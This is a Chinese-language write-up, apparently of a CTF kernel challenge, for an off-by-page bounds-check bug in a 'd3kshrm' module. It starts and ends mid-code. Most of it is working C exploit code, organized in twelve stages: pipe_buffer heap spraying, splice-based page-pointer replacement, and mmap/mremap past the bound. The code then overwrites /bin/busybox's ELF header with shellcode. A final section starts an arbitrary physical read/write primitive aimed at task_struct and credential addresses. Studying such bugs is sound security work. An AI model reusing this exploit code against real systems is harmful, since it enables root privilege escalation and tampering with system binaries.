   * Stage 6: kmalloc-4k Spray (pipe_buffer)
   **********************************************************/
  log.info("Spraying kmalloc-4k pipe buffers into freed odd slots");
  for (int i = 0; i < MAX_PIPE_COUNT; i++) {
    resize_pipe_buffer(i, PIPE_BUF_SIZE);
  }

  /**********************************************************
   * Stage 7: Free Even-indexed Order-3 Pages
   **********************************************************/
  log.info("Freeing even-indexed order-3 pages");
  for (int i = 0; i < CHUNK_COUNT; i += 2) {
    delete_chunk(dev_fd[0], chunk_ids[i]);
  }

  /**********************************************************
   * Stage 8: Allocate Vuln Chunks in Freed Even Slots
   **********************************************************/
  log.info("Allocating vuln chunks in freed even slots");
  for (int i = 0; i < CHUNK_COUNT; i++) {
    chunk_ids[i] = create_chunk(dev_fd[i], VULN_CHUNK_SIZE);
  }

  /**********************************************************
   * Stage 9: Page Replacement via splice()
   **********************************************************/
  log.info("Replacing pipe_buffer->page with victim file mapping via splice()");
  for (int i = 0; i < MAX_PIPE_COUNT; i++) {
    if (splice(victim_fd, &offset, pipe_fds[i][1], NULL, 1, 0) < 0) {
      log.error("splice() failed on pipe %d", i);
      exit(EXIT_FAILURE);
    }
  }

  /**********************************************************
   * Stage 10: Trigger d3kshrm_mmap via mmap()/mremap()
   **********************************************************/
  log.info("Triggering d3kshrm_mmap and extending mapping");
  for (int i = 0; i < CHUNK_COUNT; i++) {
    bind_chunk(dev_fd[i], chunk_ids[i]);
    victim_map[i] =
        mmap(NULL, MMAP_SIZE, PROT_READ | PROT_WRITE, MAP_SHARED, dev_fd[i], 0);
    if (victim_map[i] == MAP_FAILED) {
      log.error("mmap() failed on chunk %d", i);
      exit(EXIT_FAILURE);
    }

    victim_map[i] =
        mremap(victim_map[i], MMAP_SIZE, MREMAP_SIZE, MREMAP_MAYMOVE);
    if (victim_map[i] == MAP_FAILED) {
      log.error("mremap() failed to extend mapping for chunk %d", i);
      exit(EXIT_FAILURE);
    }
  }

  /**********************************************************
   * Stage 11: Trigger Fault and Overwrite Victim File
   **********************************************************/
  log.info("Triggering page faults to detect ELF header");
  for (int i = 0; i < CHUNK_COUNT; i++) {
    log.debug("Testing chunk %d", i);
    if (((size_t *)(victim_map[i] + 0x1000 * 0x200))[0] == ELF_MAGIC) {
      hex_dump("Victim file data", (void *)(victim_map[i] + 0x1000 * 0x200),
               0x60);
      log.success("ELF header detected at chunk %d", i);
      log.success("Writing shellcode to victim file");
      memcpy((void *)(victim_map[i] + 0x1000 * 0x200), elf_code,
             sizeof(elf_code));
      hex_dump("Evil file data", (void *)(victim_map[i] + 0x1000 * 0x200),
               0x60);
      log.success("Exploit successful!");
      log.success("Type 'exit' to trigger shellcode execution");
      break;
    }
  }

  /**********************************************************
   * Stage 12: Cleanup
   **********************************************************/
  log.info("Cleaning up file descriptors");
  for (int i = 0; i < CHUNK_COUNT; i++) {
    close(dev_fd[i]);
  }
  close(victim_fd);
  return 0;
}
```

### 3-1. 整体流程架构

#### 3-1-1. 验证思路总览

本实验完整展示了d3kshrm模块中Off-by-Page边界检查漏洞的验证过程。整个验证过程分为四个逻辑阶段，包含十二个具体技术步骤，从环境准备到最终漏洞触发，形成完整的验证链。

**核心验证思路**：通过精心设计的内存布局构造，使pages数组恰好占满4KB物理页，当访问pages[512]时越过页边界访问到相邻的pipe_buffer页面。利用splice系统调用修改pipe_buffer->page指针指向目标文件，触发边界检查漏洞后实现对目标文件的越界访问验证。


```mermaid
flowchart TD
    Start[开始验证] --> Phase1[第一阶段: 环境准备]
    Phase1 --> Phase2[第二阶段: 内存布局构造]
    Phase2 --> Phase3[第三阶段: 漏洞触发与验证]
    Phase3 --> Phase4[第四阶段: 资源清理]
    Phase4 --> End[验证完成]

    subgraph Phase1 [第一阶段: 环境准备]
        direction LR
        Stage1[Stage1: 环境初始化]
        Stage2[Stage2: 打开设备文件]
        Stage3[Stage3: 创建管道资源]
    end

    subgraph Phase2 [第二阶段: 内存布局构造]
        direction LR
        Stage4[Stage4: Order-3页面喷洒]
        Stage5[Stage5: 释放奇数索引页]
        Stage6[Stage6: 管道缓冲区堆喷]
        Stage7[Stage7: 释放偶数索引页]
        Stage8[Stage8: 分配漏洞chunk]
    end

    subgraph Phase3 [第三阶段: 漏洞触发与验证]
        direction LR
        Stage9[Stage9: 页面指针替换]
        Stage10[Stage10: 内存映射建立]
        Stage11[Stage11: 触发漏洞验证]
    end

    subgraph Phase4 [第四阶段: 资源清理]
        Stage12[Stage12: 清理资源]
    end

    Stage1 --> Stage2 --> Stage3 --> Stage4 --> Stage5
    Stage5 --> Stage6 --> Stage7 --> Stage8 --> Stage9
    Stage9 --> Stage10 --> Stage11 --> Stage12
```

#### 3-1-2. 各阶段技术目标

**第一阶段：环境准备**（Stage 1-3）

- 建立稳定的执行环境，减少并发干扰
- 准备必要的文件描述符资源
- 创建管道缓冲区基础结构

**第二阶段：内存布局构造**（Stage 4-8）

- 通过交替分配和释放塑造特定内存布局
- 实现pages数组与pipe_buffer交错分布
- 为越界访问创造目标页面条件

**第三阶段：漏洞触发与验证**（Stage 9-11）

- 修改目标页面指针指向目标文件
- 建立用户空间内存映射
- 触发边界检查漏洞并验证结果

**第四阶段：资源清理**（Stage 12）

- 释放所有分配的资源
- 确保系统状态恢复
- 避免资源泄漏

#### 3-1-3. 关键数据结构定义

```c
#define CHUNK_COUNT 0x20           // 32个chunk实例
#define MAX_PIPE_COUNT 0xf0        // 240个管道对

#define DEVICE_PATH "/proc/d3kshrm"
#define VICTIM_FILE "/bin/busybox"

// ioctl命令码
#define CMD_CREATE_CHUNK 0x3361626e
#define CMD_DELETE_CHUNK 0x74747261
#define CMD_BIND_CHUNK 0x746e6162
#define CMD_UNBIND_CHUNK 0x33746172

// 内存参数
#define VULN_CHUNK_SIZE 0x200       // 512个页面
#define PIPE_BUF_SIZE (0x1000 * 64) // 256KB
#define MMAP_SIZE (0x1000 * 0x200)  // 2MB
#define MREMAP_SIZE (0x1000 * 0x201) // 2MB+4KB
#define ELF_MAGIC 0x3010102464c457f // ELF魔数
```

**全局数据结构**：

```c
int pipe_fds[MAX_PIPE_COUNT][2];   // 管道文件描述符
int chunk_ids[CHUNK_COUNT];        // chunk索引
int dev_fd[CHUNK_COUNT];           // 设备文件描述符
void *victim_map[CHUNK_COUNT];     // 内存映射地址
int victim_fd;                     // 目标文件描述符
```

### 3-2. 第一阶段：环境准备

在开始复杂的内存操作之前，必须建立一个稳定、可控的执行环境。内核内存分配具有高度的随机性和并发性，这对精确构造内存布局构成了挑战。第一阶段的目标是消除这些不确定性，为后续操作奠定基础。

#### Stage 1: 环境初始化

**技术目标**：保存当前进程状态，绑定CPU核心。

首先保存当前进程的完整执行状态，为可能的异常恢复做准备。通过内联汇编保存CS、SS、RSP和RFLAGS寄存器值。这些寄存器定义了进程的执行上下文，保存它们为异常恢复提供了基础。

接着将当前进程绑定到CPU 0，减少多核环境下的并发内存分配干扰。通过调用`sched_setaffinity`系统调用实现CPU绑定，这提高了内存布局的可预测性和稳定性，避免了缓存一致性问题和TLB刷新带来的不确定性。

#### Stage 2: 打开设备与目标文件

**技术目标**：建立与d3kshrm驱动模块的通信通道，准备目标文件用于后续操作。

建立与目标系统的连接，包括打开必要的设备文件和目标文件。打开32个设备文件描述符，每个描述符对应一个chunk实例。设备文件以读写模式（`O_RDWR`）打开，这是后续`ioctl`和`mmap`操作的必要条件。

同时打开目标文件`/bin/busybox`用于后续操作。选择这个文件作为目标有几个原因：它是系统中普遍存在的可执行文件，内容相对稳定，其ELF文件头具有明确的魔数特征，可以作为成功访问的验证标志。目标文件以只读模式（`O_RDONLY`）打开，避免对原始文件造成意外修改。

```c
log.info("Opening " DEVICE_PATH " device file");
for (int i = 0; i < CHUNK_COUNT; i++) {
    dev_fd[i] = open(DEVICE_PATH, O_RDWR);
    if (dev_fd[i] < 0) {
        log.error("Failed to open device file");
        exit(EXIT_FAILURE);
    }
}

log.info("Opening victim file: " VICTIM_FILE);
victim_fd = open(VICTIM_FILE, O_RDONLY);
if (victim_fd < 0) {
    log.error("Failed to open victim file");
    exit(EXIT_FAILURE);
}
```

**d3kshrm_open调用链**：


```mermaid
sequenceDiagram
    participant User as 用户进程
    participant VFS as 虚拟文件系统
    participant Module as d3kshrm模块

    User->>VFS: open("/proc/d3kshrm", O_RDWR)
    VFS->>Module: 调用d3kshrm_open
    Module->>Module: file->private_data = NULL
    Module->>Module: holder计数器递增
    Module-->>VFS: 返回成功
    VFS-->>User: 返回文件描述符
```

#### Stage 3: 创建管道资源

**技术目标**：创建大量管道缓冲区，为内存布局构造建立基础结构。

管道是Unix系统中经典的进程间通信机制，但在内核漏洞验证中，它还有另一个重要用途：作为可控的内存分配源，pipe_buffer结构数组内存可通过kmalloc-4k分配，这与d3kshrm模块的pages数组使用相同的slab缓存，这为后续的内存置换创造了条件。

创建240个管道对，每个管道对包含读端和写端两个文件描述符，总共480个描述符。每个新创建的管道默认分配16页（64KB）的缓冲区。管道子系统维护一个`pipe_buffer`结构数组，每个结构体大小为40字节，包含关键的`page`指针字段。在后续操作中，将修改这个指针，将其重定向到目标文件页面。

```c
log.info("Creating %d pipes for heap shaping", MAX_PIPE_COUNT);
for (int i = 0; i < MAX_PIPE_COUNT; i++) {
    create_pipe(i);
}
```

**管道创建辅助函数**：

```c
void create_pipe(int pipe_idx) {
  if (pipe(pipe_fds[pipe_idx]) < 0) {
    log.error("Pipe creation failed at index %d", pipe_idx);
    exit(EXIT_FAILURE);
  }
}
```

**管道资源消耗统计**：

| 资源类型        | 每个管道消耗 | 240个管道总计  |
| --------------- | ------------ | -------------- |
| file结构体      | 2个          | 480个          |
| inode结构体     | 1个          | 240个          |
| 默认缓冲区      | 16页（64KB） | 3840页（15MB） |
| pipe_buffer结构 | 16个         | 3840个         |

**pipe_buffer结构体**：

```c
struct pipe_buffer {
    struct page *page;           // 指向物理页面
    unsigned int offset;         // 页面内偏移
    unsigned int len;            // 有效数据长度
    const struct pipe_buf_operations *ops;  // 操作函数表
    unsigned int flags;          // 状态标志
    unsigned long private;       // 私有数据
    // 总大小: 40字节
};
```

### 3-3. 第二阶段：内存布局构造

内存布局构造是整个验证过程的技术核心，其目标是在内核地址空间中创建特定的内存分布模式，为后续的越界访问创造条件。通过交替分配和释放操作，塑造pages数组与pipe_buffer交错分布的内存布局，为漏洞触发创造理想的环境。

#### Stage 4: Order-3页面喷洒

**技术目标**：通过驱动模块创建32个chunk，分配order-3连续内存块，建立基础内存布局框架。

首先通过d3kshrm驱动模块创建32个chunk实例，每个chunk包含一个pages数组，大小为4096字节（512个指针）。设置`page_count=0`，这意味着驱动模块会分配chunk管理结构和pages数组，但不会分配实际的物理页面。pages数组的大小计算为512×8=4096字节，恰好占满一个4KB物理页。这个巧合是漏洞触发的关键条件之一。当数组恰好占满整个页面时，数组尾后的访问（pages[512]）将跨越到下一个物理页的起始位置。

```c
log.info("Spraying %d order-3 pages via chunk allocation", CHUNK_COUNT);
for (int i = 0; i < CHUNK_COUNT; i++) {
    chunk_ids[i] = create_chunk(dev_fd[0], 0);
}
```

**chunk创建辅助函数**：

```c
int create_chunk(int dev_fd, size_t num) {
  return ioctl(dev_fd, CMD_CREATE_CHUNK, num);
}
```

**内存分配层次**：

| 分配层级      | 大小      | 数量  | 技术目的     |
| ------------- | --------- | ----- | ------------ |
| chunk_t结构体 | 512字节   | 32个  | 管理结构体   |
| pages指针数组 | 4096字节  | 32个  | 页面指针存储 |
| order-3内存块 | 32768字节 | 4-5个 | 连续内存块   |

**初始内存布局状态**：

<pre>
创建32个chunk后的内存布局
┌─────────────────────────────────────────────────────────────┐
│ order-3块0 (32KB连续内存)                                    │
├─────────────────────────────────────────────────────────────┤
│ 页0: chunk0的pages数组 (4096字节)                            │
│ 页1: chunk1的pages数组 (4096字节)                            │
│ 页2: chunk2的pages数组 (4096字节)                            │
│ 页3: chunk3的pages数组 (4096字节)                            │
│ 页4: chunk4的pages数组 (4096字节)                            │
│ 页5: chunk5的pages数组 (4096字节)                            │
│ 页6: chunk6的pages数组 (4096字节)                            │
│ 页7: chunk7的pages数组 (4096字节)                            │
└─────────────────────────────────────────────────────────────┘
</pre>

#### Stage 5: 释放奇数索引页面

**技术目标**：选择性释放奇数索引chunk，创建可控的空闲区域，为管道缓冲区分配准备空间。

在创建了连续的内存块后，需要打破这种连续性，创造出交错分布的内存模式。选择释放奇数索引的chunk（索引1,3,5,...,31），保留偶数索引的chunk。这种选择性释放策略有几个目的：首先，它创建了可控的空闲区域；其次，它打破了内存的连续性，为后续不同类型对象的交错分布创造条件；最后，它影响slab分配器的行为，使其在后续分配中更可能使用这些空闲位置。

```c
log.info("Freeing odd-indexed order-3 pages");
for (int i = 1; i < CHUNK_COUNT; i += 2) {
    delete_chunk(dev_fd[0], chunk_ids[i]);
}
```

**chunk删除辅助函数**：

```c
void delete_chunk(int dev_fd, size_t index) {
  ioctl(dev_fd, CMD_DELETE_CHUNK, index);
}
```

**内存布局变化**：

<pre>
释放奇数索引后的布局:
Order-3块0: ┌───┬───┬───┬───┬───┬───┬───┬───┐
            │P0 │F1 │P2 │F3 │P4 │F5 │P6 │F7 │
            └───┴───┴───┴───┴───┴───┴───┴───┘
P0,P2,P4,P6: 保留的pages数组页
F1,F3,F5,F7: 空闲页
</pre>

#### Stage 6: 管道缓冲区堆喷

**技术目标**：调整管道缓冲区大小，触发大量kmalloc-4k分配，实现pages数组与pipe_buffer的交错分布。

在创造了空闲内存区域后，利用管道缓冲区来填充这些空间。管道缓冲区与pages数组共享相同的slab缓存（order 3），这使得它们可以相互置换。通过调整管道缓冲区大小来触发大量内存分配。

每个管道默认有16页（64KB）缓冲区，将其扩大到64页（256KB），每个管道增加了48页（192KB）。对于240个管道，这总共增加了约11.25MB的内存分配。这些新分配的pipe_buffer很可能占据之前释放的pages数组位置，从而形成pages数组与pipe_buffer交错分布的内存布局。

```c
log.info("Spraying kmalloc-4k pipe buffers into freed odd slots");
for (int i = 0; i < MAX_PIPE_COUNT; i++) {
    resize_pipe_buffer(i, PIPE_BUF_SIZE);
}
```

**管道缓冲区调整函数**：

```c
void resize_pipe_buffer(int pipe_idx, int new_size) {
  if (fcntl(pipe_fds[pipe_idx][0], F_SETPIPE_SZ, new_size) < 0) {
    log.error("Pipe resize failed for pipe %d", pipe_idx);
    exit(EXIT_FAILURE);
  }
}
```

**内存布局变化**：

<pre>
管道缓冲区重新分配后:
Order-3块0: ┌───┬───┬───┬───┬───┬───┬───┬───┐
            │P0 │B1 │P2 │B3 │P4 │B5 │P6 │B7 │
            └───┴───┴───┴───┴───┴───┴───┴───┘
B1,B3,B5,B7: pipe_buffer页
</pre>

#### Stage 7: 释放偶数索引页面

**技术目标**：释放剩余的偶数索引chunk，为最终的漏洞chunk分配准备空间。

在完成了管道缓冲区的堆喷后，需要为最终的漏洞chunk分配准备空间。释放剩余的偶数索引chunk（索引0,2,4,...,30），这些chunk的pages数组页与pipe_buffer页当前是交错分布的。

释放这些chunk会创建新的空闲区域，但这些空闲区域与pipe_buffer页继续保持交错分布的模式。这种分布模式是后续成功的关键：当在这些位置重新分配chunk时，新的pages数组页很可能与pipe_buffer页保持相邻关系。

```c
log.info("Freeing even-indexed order-3 pages");
for (int i = 0; i < CHUNK_COUNT; i += 2) {
    delete_chunk(dev_fd[0], chunk_ids[i]);
}
```

**最终内存布局目标状态**：

<pre>
释放偶数索引chunk后的理想布局:
Order-3块N: ┌───┬───┬───┬───┬───┬───┬───┬───┐
            │F0 │B1 │F2 │B3 │F4 │B5 │F6 │B7 │
            └───┴───┴───┴───┴───┴───┴───┴───┘
F0,F2,F4,F6: 空闲页，即将被重新分配
B1,B3,B5,B7: pipe_buffer页
</pre>

#### Stage 8: 分配漏洞chunk

**技术目标**：在释放的位置上重新创建chunk，设置page_count=0x200，为边界检查漏洞触发创造关键条件。

在准备好了交错分布的内存布局后，在释放的位置上重新分配chunk，但这次设置`page_count=0x200`（512个页面）。这意味着每个chunk将管理512个物理页面，pages数组包含512个指针，大小恰好为4096字节，占满整个4KB物理页。

这个设置是漏洞触发的核心条件之一。当pages数组恰好占满一个物理页时，访问pages[512]（数组尾后位置）将计算为`基地址+512×8=基地址+4096`，这恰好是下一个物理页的起始地址。如果下一个物理页是pipe_buffer页，那么访问的就是pipe_buffer结构的前8字节，即`page`指针字段。

```c
log.info("Allocating vuln chunks in freed even slots");
for (int i = 0; i < CHUNK_COUNT; i++) {
    chunk_ids[i] = create_chunk(dev_fd[i], VULN_CHUNK_SIZE);
}
```

**漏洞chunk关键参数**：

| 参数          | 值         | 技术意义              |
| ------------- | ---------- | --------------------- |
| page_count    | 512        | 每个chunk管理的页面数 |
| pages数组大小 | 4096字节   | 512×8，占满4KB页      |
| 越界访问点    | pages[512] | 漏洞触发位置          |

**理想内存布局构造**：

<pre>
目标内存布局:
Order-3块N: pages数组页
┌─────────────────────────────────────────────────┐
│            pages数组 (4096字节)                  │
│ 有效索引: 0-511 (512个指针)                       │
│ 越界点: 索引512 (地址: A+4096)                    │
└─────────────────────────────────────────────────┘
                            │
Order-3块N+1: 目标页面 (pipe_buffer页)
┌─────────────────────────────────────────────────┐
│  pipe_buffer结构数组 (64个)                      │
│  第一个pipe_buffer在页面起始位置                  │
│  pipe_buffer->page指针可被修改                   │
└─────────────────────────────────────────────────┘
</pre>

### 3-4. 第三阶段：漏洞触发与验证

在完成了精心的内存布局构造后，进入漏洞触发与验证阶段。这个阶段的目标是修改目标pipe_buffer的page指针，建立用户空间内存映射，最终触发边界检查漏洞并验证结果。整个过程涉及文件系统、管道子系统和内存管理子系统的复杂交互。

#### Stage 9: 页面指针替换

**技术目标**：使用splice系统调用修改pipe_buffer->page指针，将其指向目标文件页面缓存。

在完成了内存布局构造后，需要控制越界访问时获取的页面指针。当访问pages[512]时，实际读取的是相邻pipe_buffer页的前8字节，即第一个pipe_buffer结构的`page`字段。如果能够控制这个字段的值，就能控制越界访问获取的页面。

Linux提供了`splice`系统调用来实现这一目标。`splice`用于在两个文件描述符之间移动数据，当从普通文件splice到管道时，内核会将文件的页面缓存与管道的缓冲区关联。具体来说，它会修改pipe_buffer的`page`指针，使其指向文件的页面缓存。

遍历所有240个管道，对每个管道执行splice操作，从目标文件传输1字节数据到管道。虽然只传输1字节，但这足以触发内核修改pipe_buffer的`page`指针。通过这种批量操作，增加了目标pipe_buffer被修改的概率。

```c
log.info("Replacing pipe_buffer->page with victim file mapping via splice()");
loff_t offset = 1;
for (int i = 0; i < MAX_PIPE_COUNT; i++) {
    if (splice(victim_fd, &offset, pipe_fds[i][1], NULL, 1, 0) < 0) {
        log.error("splice() failed on pipe %d", i);
        exit(EXIT_FAILURE);
    }
}
```

**splice系统调用参数**：

| 参数           | 值             | 功能说明     |
| -------------- | -------------- | ------------ |
| victim_fd      | 目标文件描述符 | 提供数据源   |
| &offset        | 文件偏移指针   | 指定读取位置 |
| pipe_fds[i][1] | 管道写端       | 数据目标     |
| 1              | 传输长度       | 传输1字节    |

**splice操作的技术细节**：

`splice`系统调用在处理文件到管道的传输时，会执行以下关键步骤：

1. 根据文件描述符和偏移，查找文件的页面缓存
2. 在管道的缓冲区中找到一个空闲的pipe_buffer结构
3. 将pipe_buffer的`page`字段设置为文件页面缓存的`struct page`指针
4. 设置pipe_buffer的`offset`为0，`len`为传输的字节数
5. 更新管道和文件的各种状态计数器

**pipe_buffer修改对比**：

```
修改前:
- page指针: 指向管道数据页面
- offset: 0
- len: 0
- flags: 0

修改后:
- page指针: 指向目标文件页面缓存
- offset: 0
- len: 1
- flags: 可能设置PIPE_BUF_FLAG_GIFT
```

#### Stage 10: 内存映射建立

**技术目标**：为每个chunk建立用户空间内存映射，为边界检查漏洞触发准备地址空间。

在完成了页面指针的替换后，需要为用户空间访问创建通道。通过`mmap`系统调用，可以将内核中的物理页面映射到用户空间的虚拟地址空间，这样用户程序就可以直接访问这些页面。

首先将每个chunk绑定到对应的文件描述符。这是通过`CMD_BIND_CHUNK`命令实现的，它将chunk指针存储在`file->private_data`中，为后续的mmap操作提供必要的上下文信息。

接着，为每个chunk创建内存映射。映射大小为2MB（512个页面×4KB），权限为可读可写，使用共享映射标志。这会在用户空间创建一段虚拟地址区域，当访问这段区域时，会触发缺页异常，进而调用d3kshrm模块的fault处理函数。

最后，使用`mremap`将映射区域扩展4KB，使总大小变为2MB+4KB。这个额外的4KB对应了越界访问点pages[512]。虽然这个地址不在chunk的有效范围内，但由于边界检查漏洞，访问它仍然会被处理。

```c
log.info("Triggering d3kshrm_mmap and extending mapping");
for (int i = 0; i < CHUNK_COUNT; i++) {
    bind_chunk(dev_fd[i], chunk_ids[i]);
    victim_map[i] =
        mmap(NULL, MMAP_SIZE, PROT_READ | PROT_WRITE, MAP_SHARED, dev_fd[i], 0);
    if (victim_map[i] == MAP_FAILED) {
        log.error("mmap() failed on chunk %d", i);
        exit(EXIT_FAILURE);
    }

    victim_map[i] =
        mremap(victim_map[i], MMAP_SIZE, MREMAP_SIZE, MREMAP_MAYMOVE);
    if (victim_map[i] == MAP_FAILED) {
        log.error("mremap() failed to extend mapping for chunk %d", i);
        exit(EXIT_FAILURE);
    }
}
```

**内存映射参数**：

| 参数   | 值                    | 技术含义   |
| ------ | --------------------- | ---------- |
| 长度   | 2MB                   | 512个页面  |
| 权限   | PROT_READ\|PROT_WRITE | 可读可写   |
| 标志   | MAP_SHARED            | 共享映射   |
| 新长度 | 2MB+4KB               | 包含越界点 |

**虚拟地址空间布局**：

```
chunk 0映射区域 (2MB+4KB)
起始地址: victim_map[0]
有效范围: 0-0x200页面 (2MB)
越界点: 0x201页面起始 (2MB+4KB)
```

#### Stage 11: 触发漏洞验证

**技术目标**：访问越界地址触发缺页异常，验证是否成功访问到目标文件。

一切准备工作就绪后，开始触发漏洞并进行验证。对每个chunk的映射区域，计算越界地址`victim_map[i] + 0x1000 * 0x200`，然后尝试读取这个地址的8字节数据。

这个读取操作会触发缺页异常，因为该地址尚未建立页表映射。CPU将控制权转交给内核的缺页异常处理程序，后者查找地址对应的vma，发现它属于d3kshrm模块的映射，于是调用`d3kshrm_vm_fault`函数。

在`d3kshrm_vm_fault`中，函数计算页面偏移`pgoff = (address - vma->vm_start) >> PAGE_SHIFT`。对于恶意访问，`pgoff = 0x200 = 512`。然后执行边界检查`if (vmf->pgoff > chunk->page_count)`。由于`chunk->page_count = 512`，条件`512 > 512`为false，检查通过。

接下来，函数尝试访问`chunk->pages[512]`。由于pages数组只有512个有效元素，索引512是越界访问。但在精心构造的内存布局中，`chunk->pages`数组恰好占满一个4KB页，`chunk->pages[512]`的地址计算为`pages数组基地址+4096`，这恰好是相邻pipe_buffer页的起始位置。

内核将这个地址的8字节数据解释为`struct page*`指针。实际上，这8字节是pipe_buffer结构的`page`字段，之前已被splice修改为指向目标文件的页面缓存。因此，内核获取了这个文件页面，将其映射到用户虚拟地址空间。

用户程序然后读取这个地址的8字节数据，这实际上是目标文件的前8字节，即ELF文件头魔数`0x3010102464c457f`。比较读取的值与预期的ELF魔数，如果匹配，说明成功触发了漏洞，并且成功访问到了目标文件。

```c
log.info("Triggering page faults to detect ELF header");
for (int i = 0; i < CHUNK_COUNT; i++) {
    log.debug("Testing chunk %d", i);
    if (((size_t *)(victim_map[i] + 0x1000 * 0x200))[0] == ELF_MAGIC) {
        hex_dump("Victim file data", (void *)(victim_map[i] + 0x1000 * 0x200),
                 0x60);
        log.success("ELF header detected at chunk %d", i);
        log.success("Writing shellcode to victim file");
        memcpy((void *)(victim_map[i] + 0x1000 * 0x200), elf_code,
               sizeof(elf_code));
        hex_dump("Evil file data", (void *)(victim_map[i] + 0x1000 * 0x200),
                 0x60);
        log.success("Exploit successful!");
        log.success("Type 'exit' to trigger shellcode execution");
        break;
    }
}
```

**边界检查漏洞条件**：

```c
// d3kshrm_vm_fault中的有缺陷检查
if (vmf->pgoff > chunk->page_count) {  // 应该使用>=
    res = VM_FAULT_SIGBUS;
    goto out;
}
// 当pgoff = page_count = 512时
// 512 > 512 为 false，检查通过
```

### 3-5. 第四阶段：资源清理

在完成了漏洞触发和验证后，需要清理所有分配的资源，确保系统状态的完整性和稳定性。资源清理不仅是良好的编程实践，也是安全验证的重要部分，可以避免资源泄漏和系统状态异常。

#### Stage 12: 清理资源

**技术目标**：释放所有打开的文件描述符，确保资源正确释放，避免资源泄漏。

在完成了漏洞触发和验证后，需要清理所有分配的资源，确保系统状态的完整性和稳定性。首先关闭所有打开的设备文件描述符。每个设备文件描述符对应一个d3kshrm驱动模块的打开实例。关闭操作会触发驱动的`release`函数，该函数执行必要的清理工作，包括减少引用计数、释放相关资源等。

接着关闭目标文件描述符。虽然目标文件是以只读方式打开的，但为了完整性，也显式关闭它。这确保文件系统知道不再需要这个文件的访问，可以适时释放相关资源。

```c
log.info("Cleaning up file descriptors");
for (int i = 0; i < CHUNK_COUNT; i++) {
    close(dev_fd[i]);
}
close(victim_fd);
```

**资源清理统计**：

| 资源类型       | 数量 | 清理方式         |
| -------------- | ---- | ---------------- |
| 设备文件描述符 | 32   | 显式close        |
| 目标文件描述符 | 1    | 显式close        |
| 管道文件描述符 | 480  | 隐式关闭         |
| 内存映射区域   | 32   | 进程退出自动清理 |

### 3-6. 技术总结

本实验完整展示了d3kshrm模块中Off-by-Page边界检查漏洞的验证过程。通过精心设计的内存布局构造，实现了pages数组与pipe_buffer页面的交错分布，当访问pages[512]时越过页边界访问到相邻的pipe_buffer页面。利用splice系统调用修改pipe_buffer->page指针指向目标文件，触发有缺陷的边界检查（使用`>`而非`>=`）后，成功实现对目标文件的越界访问验证。整个验证过程分为四个逻辑阶段、十二个技术步骤，涵盖了环境准备、内存布局构造、漏洞触发验证和资源清理的全过程。实验成功验证了边界检查漏洞的严重性，一个字符的差异（`>`与`>=`）可导致完全不同的安全属性，强调了代码审计和安全测试的重要性，为系统安全设计和漏洞防护提供了宝贵的技术参考。

## 4. 测试结果

<div style="text-align: center; margin: 2rem 0;">
  
</div>

## 5. 进阶分析：任意读写原语

exploit核心代码如下：

```c
#define ANON_PIPE_BUF_OPS 0xffffffff82429a88
#ifdef SECONDARY_STARTUP_64
#undef SECONDARY_STARTUP_64
#endif
#define SECONDARY_STARTUP_64 0xffffffff8123c690

#define CHUNK_COUNT 0x20
#define MAX_PIPE_COUNT 0xf0

#define DEVICE_PATH "/proc/d3kshrm"

#define CMD_CREATE_CHUNK 0x3361626e
#define CMD_DELETE_CHUNK 0x74747261
#define CMD_BIND_CHUNK 0x746e6162
#define CMD_UNBIND_CHUNK 0x33746172

#define VULN_CHUNK_SIZE 0x200
#define PIPE_BUF_SIZE (0x1000 * 64)
#define MMAP_SIZE (0x1000 * 0x200)
#define MREMAP_SIZE (0x1000 * 0x201)

// Live task_struct addressing state during the exploit
size_t current_task_addr;                           // Virtual address of current task_struct
size_t current_task_page_addr;                      // Physical page holding current task_struct
size_t parent_task_addr;                            // Virtual address of parent task_struct
size_t root_task_addr;                              // Virtual address of root task_struct (swapper/init)
size_t root_task_page_addr;                         // Physical page holding root task_struct
size_t root_cred_addr;                              // Virtual address of root credentials
size_t root_nsproxy_addr;                           // Virtual address of root namespace proxy

int pipe_fds[MAX_PIPE_COUNT * 2][2];
int chunk_ids[CHUNK_COUNT * 2];
int dev_fd[CHUNK_COUNT * 2];
void *victim_map[CHUNK_COUNT * 2];
int victim_pipe_idx = -1;
int victim_chunk_idx = -1;
int second_victim_pipe_idx = -1;
int second_victim_chunk_idx = -1;
size_t pipe_buffer_data[0x1000];
struct pipe_buffer fake_pipe_buf = {0};
size_t *leak_data;
/*==========================================================================*
 * PIPELINE MANAGEMENT
 *==========================================================================*/

/**
 * create_pipe - Create pipe for heap shaping
 * @pipe_idx: Index in global pipe array
 */
void create_pipe(int pipe_idx) {
    if (pipe(pipe_fds[pipe_idx]) < 0) {
        log.error("Pipe creation failed at index %d", pipe_idx);
        exit(EXIT_FAILURE);
    }
}

/**
 * resize_pipe_buffer - Adjust pipe buffer size via fcntl
 * @pipe_idx: Pipe index in global array
 * @new_size: Target pipe capacity
 */
void resize_pipe_buffer(int pipe_idx, int new_size) {
    if (fcntl(pipe_fds[pipe_idx][0], F_SETPIPE_SZ, new_size) < 0) {
        log.error("Pipe resize failed for pipe %d", pipe_idx);
        exit(EXIT_FAILURE);
    }
}

/*==========================================================================*
 * DEVICE IOCTL INTERFACE
 *==========================================================================*/

/**
 * create_chunk - Allocate kernel chunk via device ioctl
 * @dev_fd: Open device file descriptor
 * @num: Allocation size parameter
 * Returns: Chunk identifier
 */
int create_chunk(int dev_fd, size_t num) {
    return ioctl(dev_fd, CMD_CREATE_CHUNK, num);
}

/**
 * delete_chunk - Free kernel chunk via device ioctl
 * @dev_fd: Open device file descriptor
 * @index: Chunk identifier to free
 */
void delete_chunk(int dev_fd, size_t index) {
    ioctl(dev_fd, CMD_DELETE_CHUNK, index);
}

/**
 * bind_chunk - Establish chunk mapping context
 * @dev_fd: Open device file descriptor
 * @id: Chunk identifier to bind
 */
void bind_chunk(int dev_fd, size_t id) {
    ioctl(dev_fd, CMD_BIND_CHUNK, id);
}

/**
 * unbind_chunk - Release chunk mapping context
 * @dev_fd: Open device file descriptor
 * @index: Chunk identifier to unbind
 */
void unbind_chunk(int dev_fd, size_t index) {
    ioctl(dev_fd, CMD_UNBIND_CHUNK, index);
}

/*==========================================================================*
 * ARBITRARY PHYSICAL MEMORY ACCESS
 *==========================================================================*/

/**
 * arbitrary_phys_read - Read arbitrary physical memory through pipe primitive
 * @target_page: Physical page address
 * @page_offset: Offset within target page
 * @output_buffer: Destination buffer for read data
 * @read_length: Number of bytes to read
 */
void arbitrary_phys_read(uint64_t target_page, uint32_t page_offset,
                         void *output_buffer, uint64_t read_length) {
    fake_pipe_buf.page = (struct page *)target_page;
